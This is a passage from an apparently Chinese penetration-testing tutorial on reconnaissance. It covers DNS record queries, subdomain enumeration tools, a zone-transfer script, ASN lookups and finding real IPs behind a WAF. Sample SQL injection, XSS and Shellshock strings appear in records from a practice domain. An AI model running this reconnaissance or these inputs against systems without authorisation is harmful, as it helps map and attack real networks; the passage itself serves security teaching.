;; AUTHORITY SECTION:
raingray.com.       600 IN  SOA dns29.hichina.com. hostmaster.hichina.com. 2022052002 3600 1200 86400 600

Received 95 bytes from 183.60.83.19#53 in 59 ms
```

\-t 查询指定记录

```plaintext
[root@VM-24-2-centos ~]# host -t A -v www.raingray.com
Trying "www.raingray.com"
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 29116
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  A

;; ANSWER SECTION:
www.raingray.com.   123 IN  A   81.70.14.219

Received 50 bytes from 183.60.83.19#53 in 5 ms
```

不指定就默认查询 A、AAAA、MX 记录

```plaintext
[root@VM-24-2-centos ~]# host -v www.raingray.com
Trying "www.raingray.com"
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5571
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  A

;; ANSWER SECTION:
www.raingray.com.   67  IN  A   81.70.14.219

Received 50 bytes from 183.60.83.19#53 in 1 ms
Trying "www.raingray.com"
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 7763
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  AAAA

;; AUTHORITY SECTION:
raingray.com.       318 IN  SOA dns29.hichina.com. hostmaster.hichina.com. 2022052002 3600 1200 86400 600

Received 95 bytes from 183.60.83.19#53 in 1 ms
Trying "www.raingray.com"
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 6431
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  MX

;; AUTHORITY SECTION:
raingray.com.       67  IN  SOA dns29.hichina.com. hostmaster.hichina.com. 2022052002 3600 1200 86400 600

Received 95 bytes from 183.60.83.19#53 in 3 ms
```

\-a 查询所有记录并详细显示，等同于 -v -t ANY，这个 ANY是查询类型，不是一种 DNS 记录，意思是要查所有可用的 DNS 记录。但是我这里查询为空不知道为什么。

```plaintext
[root@VM-24-2-centos ~]# host -a -d  www.raingray.com 8.8.8.8
Trying "www.raingray.com"
Using domain server:
Name: 8.8.8.8
Address: 8.8.8.8#53
Aliases: 

;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 55537
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  ANY

;; ANSWER SECTION:
www.raingray.com.   3600    IN  HINFO   "RFC8482" ""

Received 55 bytes from 8.8.8.8#53 in 132 ms
```

也可以指定 DNS 服务器查询。

```plaintext
[root@VM-24-2-centos ~]# host -t A -d  www.raingray.com 8.8.8.8
Trying "www.raingray.com"
Using domain server:
Name: 8.8.8.8
Address: 8.8.8.8#53
Aliases: 

;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 26217
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.raingray.com.      IN  A

;; ANSWER SECTION:
www.raingray.com.   600 IN  A   81.70.14.219

Received 50 bytes from 8.8.8.8#53 in 135 ms
```

#### 2.7.1 枚举 A 记录

除了上面 MX、SPF、NS、SOA 等记录外，最常关注的是 A 记录，它直接指向目标 IP，一般都是对应业务服务器。

常见工具：OneForAll、subDomainsBrute、Sublist3r、Layer子域名挖掘机.....

还有一些可以在线查询子域站点：

[http://site.ip138.com](http://site.ip138.com/)


[https://www.virustotal.com/](https://www.virustotal.com/)


[https://www.cloudflare.com，注册账户添加站点就能分析出子域](https://www.cloudflare.xn--com,-ey8fwwtc87do70ayliwocwy2aumqbur6yd78n7l7bsdxzg5c/)。

[https://myssl.com](https://myssl.com/)


更多枚举 A 记录的工具查看[域名搜集常用工具](#%E5%9F%9F%E5%90%8D%E6%90%9C%E9%9B%86%E5%B8%B8%E7%94%A8%E5%B7%A5%E5%85%B7)小节。

#### 2.7.2 查 PTR 记录

有了 IP 通过 IP 获取对应域名。

nslookup 查询。

```plaintext
PS C:\Users\gbb> nslookup
默认服务器:  pdns.dnspod.cn
Address:  119.29.29.29

> set type=PTR
> 203.107.45.167
服务器:  pdns.dnspod.cn
Address:  119.29.29.29

非权威应答:
167.45.107.203.in-addr.arpa     name = catl.com
```

host 查询。

```plaintext
[root@VM-24-2-centos ~]# host 203.107.45.167
167.45.107.203.in-addr.arpa domain name pointer catl.com.
```

#### 2.7.3 查 SPF 记录

[https://github.com/0xbharath/assets-from-spf](https://github.com/0xbharath/assets-from-spf)

#### 2.7.4 排列组合子域

##### altdns

[https://github.com/infosec-au/altdns](https://github.com/infosec-au/altdns)

安装

```plaintext
pip install py-altdns
```

安装时要解决模块名和版本不对的问题，Queue 改为 小写 q，idna模块一定要 2.5 版本

```plaintext
pip3 install idna==2.5
```

subdomains.txt，是输入的数据  
data\_output，是排列组合后的子域名  
results\_output.txt，是排列组合后最终确认有效的子域名，-r 是要对其解析，-s 是保存结果。  
words.txt，是排列组合的字典。

```shell
altdns -i subdomains.txt -o data_output -w words.txt -r -s `date +%Y%m%d_%H%M%S`_altdns_domain.txt
```

##### dmut

[dmut](https://github.com/bp0lr/dmut) 是用 Golang 重写 altdns，主要作用是加快速度，避免安装依赖。

安装

```plaintext
go get -u github.com/bp0lr/dmut
```

运行

```plaintext
dmut -d dmut_words.txt -o tmp_dmut_domain.txt
```

它工作原理是生成排列子域名，使用本地文件中 DNS 服务器查询，这些 DNS 服务器都是经过测试快速且可靠。不过需要定期使用 `dmut --update-dnslist` 进行更新，文件将保存到 `~/.dmut/resolvers.txt`

##### dnsgen

[https://github.com/ProjectAnte/dnsgen](https://github.com/ProjectAnte/dnsgen)

安装

```plaintext
pip3 install dnsgen
```

运行

```shell
dnsgen doamins.txt | ./massdns -r lists/resolvers.txt -t A -q -o S --root -w `date +%Y%m%d_%H%M%S`_dnsgen_domain.txt
```

#### 2.7.5 DNS 区域传输

前面的查询我们只是针对域名来查询，如果能把这个与下的所有主机记录全部查出来，那么成功渗透（攻击面积增大）的可能性会大大增加，这是一个最理想的情况。

DNS 区域传输它只发生在本域域名服务器之间，假设一个 DNS 服务器（称作 master）增加了一条 A 记录，会与其他 DNS 服务器（称作 slave）进行同步。如果 master 没有限制哪些slave 服务器地址允许与我同步，那任何人都可以全量同步 master 所有记录。

下面来介绍 dig、host、nslookup 工具来测试区域传输，你可以使用 ZoneTransfer.me 域名做练习，它是专供实验用的测试环境。

首先获得 NS 记录。

```plaintext
[root@VM-24-2-centos ~]# dig -t ns +short example.com
ns3.example.com.
ns1.example.com.
ns2.example.com.
```

使用 AXFR（差异化记录传输）传输方法对 @ns2.example.com 域名服务器查找 example.com 域名所有记录。

```plaintext
[root@VM-24-2-centos ~]# dig axfr @ns4.example.com example.com 

; <<>> DiG 9.11.26-RedHat-9.11.26-6.el8 <<>> axfr @ns2.example.com example.com
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

拒绝了。

如果成功会有如下数据。

```plaintext
[root@VM-24-2-centos ~]# dig axfr @ns2.example.com. example.com

; <<>> DiG 9.11.26-RedHat-9.11.26-6.el8 <<>> axfr @ns2.example.com. example.com
; (1 server found)
;; global options: +cmd
example.com.    300 IN  SOA ns1.example.com. admin.example.com. 202102161 28800 7200 2419200 300
example.com.    300 IN  TXT "Try Harder"
example.com.    300 IN  TXT "google-site-verification=U7B_b11BtY11111hMN1115pA"
example.com.    300 IN  MX  10 fb.mail.example.net.
example.com.    300 IN  MX  20 spool.mail.example.net.
example.com.    300 IN  MX  50 mail.example.com.
example.com.    300 IN  MX  60 mail2.example.com.
example.com.    300 IN  NS  ns1.example.com.
example.com.    300 IN  NS  ns2.example.com.
example.com.    300 IN  NS  ns3.example.com.
admin.example.com.  300 IN  A   1.1.1.1
beta.example.com.   300 IN  A   1.1.1.1
fs1.example.com.    300 IN  A   1.1.1.1
intranet.example.com. 300   IN  A   1.1.1.1
mail.example.com.   300 IN  A   1.1.1.1
mail2.example.com.  300 IN  A   1.1.1.1
ns1.example.com.    300 IN  A   1.1.1.1
ns2.example.com.    300 IN  A   1.1.1.1
ns3.example.com.    300 IN  A   1.1.1.1
router.example.com. 300 IN  A   1.1.1.1
siem.example.com.   300 IN  A   1.1.1.1
snmp.example.com.   300 IN  A   1.1.1.1
support.example.com. 300    IN  A   1.1.1.1
syslog.example.com. 300 IN  A   1.1.1.1
test.example.com.   300 IN  A   1.1.1.1
vpn.example.com.    300 IN  A   1.1.1.1
www.example.com.    300 IN  A   1.1.1.1
www2.example.com.   300 IN  A   1.1.1.1
example.com.    300 IN  SOA ns1.example.com. admin.example.com. 202102161 28800 7200 2419200 300
;; Query time: 215 msec
;; SERVER: 51.222.39.63#53(51.222.39.63)
;; WHEN: Tue Sep 06 17:23:07 CST 2022
;; XFR size: 29 records (messages 1, bytes 762)
```

也可以用 host 来测试区域传输。

先获取 nameserver。

```plaintext
[root@VM-24-2-centos ~]# host -t ns example.com | cut -d " " -f 4
ns3.example.com.
ns1.example.com.
ns2.example.com.
```

进行区域传输。

```plaintext
[root@VM-24-2-centos ~]# host -la example.com ns2.example.com.
Trying "example.com"
Using domain server:
Name: ns2.example.com.
Address: 1.1.1.1#53
Aliases: 

Host example.com not found: 9(NOTAUTH)
; Transfer failed.
```

传输失败。在 master 一般做了白名单就能防止区域传输，基本遇不到配置错误的时候。

默认 DNS 查询是在 UDP 53 端口进行的，而我们区域传输（AXFR）是在 TCP 53 端口进行，不过无需手动调整连接方式，host 在区域传输时会默认使用 TCP，但它也有 -T 选项指定 TCP 连接，无需添加。

\-l 使用 AXFR 列出一个域所有的主机，-a 是和 dig 成功区域传输结果一样展示出所有 DNS 记录。你要注意域名服务器有时加了 `.`，这其实不影响，加不加都可以。

下面展示成功传输结果。

```plaintext
[root@VM-24-2-centos ~]# host -l example.com  ns2.example.com.
Using domain server:
Name: ns2.example.com.
Address: 1.1.1.1#53
Aliases: 

example.com name server ns1.example.com.
example.com name server ns2.example.com.
example.com name server ns3.example.com.
admin.example.com has address 51.222.169.208
beta.example.com has address 51.222.169.209
fs1.example.com has address 51.222.169.210
intranet.example.com has address 51.222.169.211
mail.example.com has address 51.222.169.212
mail2.example.com has address 51.222.169.213
ns1.example.com has address 51.79.37.18
ns2.example.com has address 51.222.39.63
ns3.example.com has address 66.70.207.180
router.example.com has address 51.222.169.214
siem.example.com has address 51.222.169.215
snmp.example.com has address 51.222.169.216
support.example.com has address 51.222.169.218
syslog.example.com has address 51.222.169.217
test.example.com has address 51.222.169.219
vpn.example.com has address 51.222.169.220
www.example.com has address 149.56.244.87
www2.example.com has address 149.56.244.87
```

一旦能成功区域传输，可以尝试获取内部域名。

```plaintext
[root@VM-24-2-centos ~]# dig axfr int @ns2.example.com

; <<>> DiG 9.11.26-RedHat-9.11.26-6.el8 <<>> axfr int @ns2.example.com
;; global options: +cmd
int.            604800  IN  SOA int. internals. 2 604800 86400 2419200 604800
int.            604800  IN  NS  int.
int.            604800  IN  A   127.0.0.1
domain.int.     604800  IN  TXT "1-1-1"
int.            604800  IN  SOA int. internals. 2 604800 86400 2419200 604800
;; Query time: 220 msec
;; SERVER: 51.158.147.132#53(51.158.147.132)
;; WHEN: Mon Jun 20 17:08:51 CST 2022
;; XFR size: 5 records (messages 1, bytes 229)
```

实际不知道哪个 NS 服务器能够传输，最好全部都试一遍，可以通过 shell 脚本流程全自动。

```bash
#!/bin/bash

# 判断参数传递
if [ -z "$1" ]; then
    echo "Usage: $0 -d <domain>"
    exit
fi

# 开始区域传输
server=`host -t ns $1 | awk '{print $4}' | tr "\n" " "`

for s in $server
do
    host -l $1 $s | grep "has address" | sed "s/has address //g" | sort -u
done
```

Windows 中使用 nslookup 交互模式来操作区域传输。

先查询 NS 服务器，并设置服务器。

```plaintext
C:\Users\gbb>nslookup -q=ns ZoneTransfer.me
服务器:  UnKnown
Address:  172.20.10.1

非权威应答:
zonetransfer.me nameserver = nsztm1.digi.ninja
zonetransfer.me nameserver = nsztm2.digi.ninja

C:\Users\gbb>nslookup -q=soa ZoneTransfer.me
服务器:  UnKnown
Address:  172.20.10.1

非权威应答:
zonetransfer.me
        primary name server = nsztm1.digi.ninja
        responsible mail addr = robin.digi.ninja
        serial  = 2019100801
        refresh = 172800 (2 days)
        retry   = 900 (15 mins)
        expire  = 1209600 (14 days)
        default TTL = 3600 (1 hour)

C:\Users\gbb>nslookup
默认服务器:  UnKnown
Address:  172.20.10.1

> server nsztm1.digi.ninja
默认服务器:  nsztm1.digi.ninja
Address:  81.4.108.41
```

使用 ls -d 获取所有记录，等同于 -t=any。

```plaintext
> ls -d zonetransfer.me
[nsztm1.digi.ninja]
 zonetransfer.me.               SOA    nsztm1.digi.ninja robin.digi.ninja. (2019100801 172800 900 1209600 3600)
 zonetransfer.me.               HINFO  Casio fx-700G  Windows XP
 zonetransfer.me.               TXT             "google-site-verification=tyP28J7JAUHA9fw2sHXMgcCC0I6XBmmoVi04VlMewxA"

 zonetransfer.me.               MX     0    ASPMX.L.GOOGLE.COM
 zonetransfer.me.               MX     10   ALT1.ASPMX.L.GOOGLE.COM
 zonetransfer.me.               MX     10   ALT2.ASPMX.L.GOOGLE.COM
 zonetransfer.me.               MX     20   ASPMX2.GOOGLEMAIL.COM
 zonetransfer.me.               MX     20   ASPMX3.GOOGLEMAIL.COM
 zonetransfer.me.               MX     20   ASPMX4.GOOGLEMAIL.COM
 zonetransfer.me.               MX     20   ASPMX5.GOOGLEMAIL.COM
 zonetransfer.me.               A      5.196.105.14
 zonetransfer.me.               NS     nsztm1.digi.ninja
 zonetransfer.me.               NS     nsztm2.digi.ninja
 _acme-challenge                TXT             "6Oa05hbUJ9xSsvYy7pApQvwCUSSGgxvrbdizjePEsZI"

 _sip._tcp                      SRV    priority=0, weight=0, port=5060, www.zonetransfer.me
 14.105.196.5.IN-ADDR.ARPA      PTR    www.zonetransfer.me
 asfdbauthdns                   AFSDB  1    asfdbbox.zonetransfer.me
 asfdbbox                       A      127.0.0.1
 asfdbvolume                    AFSDB  1    asfdbbox.zonetransfer.me
 canberra-office                A      202.14.81.230
 cmdexec                        TXT             "; ls"

 contact                        TXT             "Remember to call or email Pippa on +44 123 4567890 or pippa@zonetransfer.me when making DNS changes"

 dc-office                      A      143.228.181.132
 deadbeef                       AAAA   dead:beaf::
 dr                             29
 DZC                            TXT             "AbCdEfG"

 email                          35
 email                          A      74.125.206.26
 Hello                          TXT             "Hi to Josh and all his class"

 home                           A      127.0.0.1
 Info                           TXT             "ZoneTransfer.me service provided by Robin Wood - robin@digi.ninja. See http://digi.ninja/projects/zonetransferme.php for more information."

 internal                       NS     intns1.zonetransfer.me
 internal                       NS     intns2.zonetransfer.me
 intns1                         A      81.4.108.41
 intns2                         A      167.88.42.94
 office                         A      4.23.39.254
 ipv6actnow.org                 AAAA   2001:67c:2e8:11::c100:1332
 owa                            A      207.46.197.32
 robinwood                      TXT             "Robin Wood"

 rp                             RP     robin.zonetransfer.me  robinwood.zonetransfer.me
 sip                            35
 sqli                           TXT             "' or 1=1 --"

 sshock                         TXT             "() { :]}; echo ShellShocked"

 staging                        CNAME  www.sydneyoperahouse.com
 alltcpportsopen.firewall.test  A      127.0.0.1
 testing                        CNAME  www.zonetransfer.me
 vpn                            A      174.36.59.154
 www                            A      5.196.105.14
 xss                            TXT             "'><script>alert('Boo')</script>"

 zonetransfer.me.               SOA    nsztm1.digi.ninja robin.digi.ninja. (2019100801 172800 900 1209600 3600)
```

这里 nslookup 并没有说使用哪种方式进行传输，通过 WireShark 发现是 AXFR。


#### 2.7.6 泛解析

域名配置解析时可以选通配符。这样不管解析任何子域名都会有 IP，会污染我们枚举的数据，混淆视听。

```plaintext
*.domain.com
```

因此在枚举前首先检测域名泛解析，我们随机解析域名，只要返回结果大于 1 很有可能把所有子域名解析到其他地方，这时候枚举就没意义。

```plaintext
dig @1.1.1.1 A,CNAME {OjbsNJYBMO4,A2CaQ14IJ4K,lrfskdZZqQC}.<domain> +short | wc -l
```

通过 shell 自动检测结果返回行数。

```shell
if [[ "$(dig @1.1.1.1 A,CNAME {test321123,testingforwildcard,plsdontgimmearesult}.$domain +short | wc -l)" -gt "1" ]]; then
    echo "[!] Possible wildcard detected."
fi
```

### 2.8 站点配置文件

#### 2.8.1 crossdomain.xml

crossdomain.xml，一个跨域资源限制配置文件，用于限制 Flash 跨域请求资源。不过 Flash 在 2020 年 12 月 31 日官方停止支持，后续此配置文件应该越来越少。


说到跨域，不得不提到 CORS，它的 ACAO 头（Access-Control-Allow-Origin）也有可能存在未公开的域名。

```http
OPTIONS /mcp/pc/pcsearch HTTP/1.1
Host: ug.baidu.com
Accept: */*
Access-Control-Request-Method: POST
Access-Control-Request-Headers: content-type
Origin: https://www.baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Sec-Fetch-Dest: empty
Referer: https://www.baidu.com/s?ie=utf-8&f=8&rsv_bp=1&rsv_idx=1&tn=baidu&wd=1&fenlei=256&rsv_pq=0xc56ed8830001570d&rsv_t=4ea08C2xLVM22%2FU6EtvA%2F6EqYkehY5kntzokWGGRraFMpOpiMTELbCunmqbd&rqlang=en&rsv_dl=tb&rsv_enter=0&rsv_sug3=1&rsv_btype=i&inputT=11187&rsv_sug4=11187
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Methods: POST, GET
Access-Control-Allow-Origin: https://www.baidu.com
Content-Length: 0
Date: Sun, 29 Jan 2023 01:43:06 GMT
Tracecode: 52739565867831502930608036106012909
Content-Type: text/plain; charset=utf-8
Connection: close
```

这里响应中 ACAO 头值为 `https://www.baidu.com`。如果你想了解更多 CORS 安全欢迎查看 [《CORS 安全》](https://www.raingray.com/archives/3800.html) 一文。

#### 2.8.2 security.txt

这个文件用于告诉漏洞发现者你可以向哪里提交或联系人员处理。

Web 站点存放位置 /.well-known/security.txt，也有放在根路径下，但文档推荐重定向到上面路径，实际也要扫描根目录 /.security.txt。

文件系统存放位置，Windows 和 Linux 都放在根路径，/.security.txt、C:/.security.txt。

文件内容会包含邮箱和站点等信息。

```plaintext
# This is a comment.
Contact: mailto:security@example.com
Contact: tel:+1-201-555-0123
Contact: https://example.com/security-contact.html
```

### 2.9 域名搜集常用工具

部分工具使用被动源来搜集域名，使用时要注意配置全 API 获得完整数据。

主动枚举 A 记录需要看你常用字典是否强大，在需要配置字典时可以参考下面内容：

-   [https://gist.github.com/jhaddix/86a06c5dc309d08580a018c66354a056，爆破子域名的字典，jhaddix](https://gist.github.com/jhaddix/86a06c5dc309d08580a018c66354a056%EF%BC%8C%E7%88%86%E7%A0%B4%E5%AD%90%E5%9F%9F%E5%90%8D%E7%9A%84%E5%AD%97%E5%85%B8%EF%BC%8Cjhaddix) 把一些做了整合，更新还及时。
-   [https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS，SecLists](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS%EF%BC%8CSecLists) 的子域名列表
-   [https://github.com/Tim1512/subdomain\_scanner/tree/master/wordlist，不知名工具字典集合](https://github.com/Tim1512/subdomain_scanner/tree/master/wordlist%EF%BC%8C%E4%B8%8D%E7%9F%A5%E5%90%8D%E5%B7%A5%E5%85%B7%E5%AD%97%E5%85%B8%E9%9B%86%E5%90%88)  
    [https://github.com/assetnote/commonspeak2-wordlists](https://github.com/assetnote/commonspeak2-wordlists)  
    [https://github.com/rbsec/dnscan](https://github.com/rbsec/dnscan)
-   [https://github.com/gh0stkey/Web-Fuzzing-Box/tree/main/Brute/Subdomain，米斯特](https://github.com/gh0stkey/Web-Fuzzing-Box/tree/main/Brute/Subdomain%EF%BC%8C%E7%B1%B3%E6%96%AF%E7%89%B9) ghostkey 师傅公开字典
-   [https://wordlists.assetnote.io，在里面搜索关键词](https://wordlists.assetnote.xn--io,-px1ey4xq2uh73blsyavjlshifjg/) subdomain 去下载，我还看到 best-dns-wordlist.txt 有 900万行大字典。

还有一点再枚举时需要注意

#### 2.9.1 subfinder

[https://github.com/projectdiscovery/subfinder](https://github.com/projectdiscovery/subfinder)

选项说明：

-   \-d，要查找的域名
-   \-silent，只输出子域名
-   \-nc，输出结果不带颜色
-   \-o，输出到文件
-   \-recursive，递归
-   \-t，线程

```shell
subfinder -d freelancer.com -silent -nc -t 50 -o `date +%Y%m%d_%H%M%S`_subfinder_domian.txt
```

**Sudomy**

[https://github.com/Screetsec/Sudomy](https://github.com/Screetsec/Sudomy)

安装

```shell
git clone --recursive https://github.com/screetsec/Sudomy.git
pip install -r requirements.txt
```

依赖装不上哈哈哈，部分被动源就没法用，就算是默认被动源也比 amass 快，去重后相比 amass 少 8 个，但是也不错拉，主要速度哈哈哈。

`-b` DNS 记录枚举使用的 Gobuster 来跑，采用 SecList 所有 DNS 字典约 278 万条。

```shell
sudomy -d $1 -b -o `date +%Y%m%d_%H%M%S`_sudomy_domian.txt
```

数据默认输出位置 `output/date +%m-%d-%Y/$1/subdomain.txt`

使用 `-o` 会在指定目录下创建一个 `Sudomy-Output/$1`。

Bug：

1.  1.2.1#dev 版本运行需要进入到程序安装目录，不然跑完最终处理数据会找不到文件。
2.  调用 Gobuster 使用 SecList 子域名字典，输出结果中包含大小写子域名，需要去重。300 万字典大概跑了三小时左右。

#### 2.9.2 amass

[amass](https://github.com/OWASP/Amass) 用的最多的命令是 enum、intel。

intel 是在互联网上搜索 root 域名，启用各种被动源。emum 常用的就是一些枚举记录，主要用于搜索 subdomain。

透过 whois 反查得到组织注册的域名

```shell
amass intel -whois -d domain.com
```

通过组织名称获取 ASN，-org 通过关键词在网上搜索，-max-dns-queries dns查询速率一次能发送多少请求

```shell
amass intel -org wanmei -max-dns-queries 2500
```

通过 CIDR 获取域名

```shell
amass intel -cidr 1.1.1.1/8
```

通过 ASN 查询域名，其中 `-active` 选项将使用区域传输、提取SSL证书域名技术——从配置文件中找到的。

```shell
amass intel -active -asn number[,number]
```

通过字典来枚举，默认自带的字典是 SecList 的子域字典。

```shell
amass enum -brute -w /recon/dict/dns/subdomain.txt -d example.com -config /root/config.ini -o `date +%Y%m%d_%H%M%S`_amass_domain.txt
```

有些选项如果一致用，可以写到配置文件作为默认值使用，去参考[配置文件](https://gist.github.com/PatrikFehrenbach/33ec3724884a3557a3015718dd796fbf)做配置。要注意，当命令行参数和配置文件不同时，命令行优先级高于配置文件。

#### 2.9.3 assetfinder

相比 amass 它部分搜索源不需要配置 API KEY。

加上 `--subs-only` 就会只显示关于指定域名内容，相关的域名不会展示。

```shell
assetfinder [--subs-only] <domain> > `date +%Y%m%d_%H%M%S`_assetfinder_domain.txt
```

#### 2.9.4 sublist3r

[https://github.com/aboul3la/Sublist3r](https://github.com/aboul3la/Sublist3r)

枚举 A 记录。

```shell
python3 sublist3r.py -b -d $1 -o `date +%Y%m%d_%H%M%S`_sublist3r_domain.txt

gobuster dns -d $1 -c -q -z --timeout 3s -w sub_domain.txt | cut -d ' ' -f 2 | sort -u > `date +%Y%m%d_%H%M%S`_gobuster_domain.txt
```

#### 2.9.5 OneForAll

[https://github.com/shmilylty/OneForAll](https://github.com/shmilylty/OneForAll)

国内很多人都在使用。我个人用的少。

#### 2.9.6 certspotter 接口

```shell
certspotter(){ 
curl -s "https://api.certspotter.com/v1/issuances?domain=$1&include_subdomains=true&expand=dns_names" | jq '.[].dns_names[]' | tr -d '"' | sed 's/\*\.//g' | sort -u | uniq | grep $1 > `date +%Y%m%d_%H%M%S`_certspotter_domain.txt
}
```

#### 2.9.7 Anubis-DB 接口

通过 [Anubis-DB](https://github.com/jonluca/Anubis-DB) 获取数据。

```shell
curl -s "https://jldc.me/anubis/subdomains/wanmei.com" | jq '.[]' | sort -u | uniq | tr -d '"' | sed 's/^\*\.//g' | anew `date +%Y%m%d_%H%M%S`_anubis_domain.txt
```

#### 2.9.8 Github Search SubDomain

[https://github.com/gwen001/github-search/blob/master/github-subdomains.py](https://github.com/gwen001/github-search/blob/master/github-subdomains.py)

```shell
python github-subdomains.py -t YOURTOKEN -d $1 | sort -u | uniq | > `date +%Y%m%d_%H%M%S`_github_search_domian.txt
```

由于 raw.githubusercontent.com 被墙，只能通过指定 hosts 文件地址来访问域名。通过 [https://githubusercontent.com.ipaddress.com/raw.githubusercontent.com](https://githubusercontent.com.ipaddress.com/raw.githubusercontent.com) 找到 IP。另外需要设置源码中 requests timeout 为 60s，防止超时。

#### 2.9.9 Rapid7 DNS 数据

[sonarsearch](https://github.com/cgboal/sonarsearch) 此项目提供 Web API，用 rapid7 的 DNS 数据进行查找，返回 JSON数据，在 Linux 下用 jq 进行解析，能得到一堆子域名，除了网段也可以进行关键字搜索。

通过 ASN 获得 IP 段，反向查找IP段域名

```shell
curl https://sonar.omnisint.io/reverse/123.456.123.0/8 | jq '.[].name_value'
```

查找子域

```shell
curl https://sonar.omnisint.io/subdomains/raingray.com | jq '.[]' | sed 's/"//g'
```

要自己下载[数据库](https://opendata.rapid7.com/sonar.fdns_v2)直接在里面查数据也行。

```shell
zgrep '\.binarydefense\.com'
2020*.json.gz |  cut -d ',' -f 2 | cut -d
':' -f 2 | cut -d '"' -f 2 | sort -u > sonar_domains_binarydefense.com.txt
```

或者

```shell
wget https://opendata.rapid7.com/sonar.fdns_v2/2021-01-30-1611965078-fdns_a.json.gz; gunzip 2021-01-30-1611965078-fdns_a.json;  cat 2021-01-30-1611965078-fdns_a.json | grep ".DOMAIN.com" | jq .name | tr '" " "' " / " | tee -a sonar
```

以上查找数据速度很慢，[DNSGrep](https://github.com/erbbysam) 项目解决了此问题。作者还写了篇文章介绍 [DNSGrep — Quickly Searching Large DNS Datasets](https://blog.erbbysam.com/index.php/2019/02/09/dnsgrep/)。

## 3 关联资产搜寻

### 3.1 DNS 历史解析记录

通过：

-   x.threatbook.cn
-   securitytrails.com/domain/www.baidu.com/dns

查找此 IP 历史解析记录，这样子也能找到相关资产，或是找到 DNS 切到云 WAF 之前的真实 IP，直接绕过 WAF。

### 3.2 ASN 确定 CIDR

面对一家小型企业，可能会购买连续的 IP 地址，或是购买 ECS，租赁/自建机房，根据现有 IP 去计算它大致网段，再横向扫描有几率获取到目标相关资产。

在面对大型企业，比如 ISP 和云服务供应商，他们会去申请 ASN 号，这个 ASN 号对应着多个网段。我们可以通过查询 IP ASN 确定对应对应网段，或者是查询名称获取所有 ANS 号。

1.  ip-api
    
    ip-api 提供在线 API，提供 IP 即可使用，jq 工具处理 JSON 数据 选择 .as 字段值展示。
    
    ```bash
     [gbb@iZ2ze3excf14rd7l4rsgn3Z ~]# curl http://ip-api.com/json/47.93.48.46 | jq -r .as
     AS37963 Hangzhou Alibaba Advertising Co.,Ltd.
    ```
    
2.  ipipnet
    
    ipip.net 也能显示 ASN 和 CIDR 数据。
    
    
    
3.  Team Cymru
    
    [https://asn.cymru.com](https://asn.cymru.com/)
    
    
    
    这两个地址是同一家公司。
    
    ```bash
     kali@kali:~/Desktop$ whois -h whois.cymru.com 47.93.48.46
     AS      | IP               | AS Name
     37963   | 47.93.48.46      | CNNIC-ALIBABA-CN-NET-AP Hangzhou Alibaba Advertising Co.,Ltd., CN
    ```
    
4.  Whois
    
    通过 whois 工具查 ASN 号码的地址范围
    
    ```plaintext
     whois -h whois.radb.net  -- '-i origin AS37963' | grep -Eo "([0-9.]+){4}/[0-9]+" | uniq
    ```
    
    
    
5.  Nmap Script
    
    Nmap 脚本也可查
    
    ```plaintext
     nmap --script targets-asn --script-args targets-asn.asn=37963
    ```
    
    
    
6.  Hurricane Electric
    
    [https://bgp.he.net](https://bgp.he.net/)
    
    优点是可以通过企业注册名称搜索。
    
    
    
7.  搜索引擎查对应注册名
    
    通过一个 IP 得到注册名，再搜索引擎查 ASN 号。
    

通过 ASN 查到了这些网段，如何玩儿？这么多网段主动去扫描端口很费时，这时就可以用上网络空间搜索引擎来辅助找到存活主机。

  
  


其次是用 [tlsx](https://github.com/projectdiscovery/tlsx) 通过 CIDR 获取存活主机，并提取证书 SAN、Commmon Name 内域名。

> SAN/CN Probe
> 
> TLS certificate contains DNS names under **subject alternative name** and **common name** field that can be extracted using , flag.`-san``-cn`
> 
> ```makefile
> $ echo 173.0.84.0/24 | tlsx -san -cn -silent
> 
> 173.0.84.104:443 [uptycspay.paypal.com]
> 173.0.84.104:443 [api-3t.paypal.com]
> 173.0.84.104:443 [api-m.paypal.com]
> 173.0.84.104:443 [payflowpro.paypal.com]
> 173.0.84.104:443 [pointofsale-s.paypal.com]
> 173.0.84.104:443 [svcs.paypal.com]
> 173.0.84.104:443 [uptycsven.paypal.com]
> 173.0.84.104:443 [api-aa.paypal.com]
> 173.0.84.104:443 [pilot-payflowpro.paypal.com]
> 173.0.84.104:443 [pointofsale.paypal.com]
> 173.0.84.104:443 [uptycshon.paypal.com]
> 173.0.84.104:443 [api.paypal.com]
> 173.0.84.104:443 [adjvendor.paypal.com]
> 173.0.84.104:443 [zootapi.paypal.com]
> 173.0.84.104:443 [api-aa-3t.paypal.com]
> 173.0.84.104:443 [uptycsize.paypal.com]
> ```
> 
> For ease of automation, optionally flag can be used to list only dns names in CLI output.`-resp-only`
> 
> ```shell
> $ echo 173.0.84.0/24 | tlsx -san -cn -silent -resp-only
> 
> api-aa-3t.paypal.com
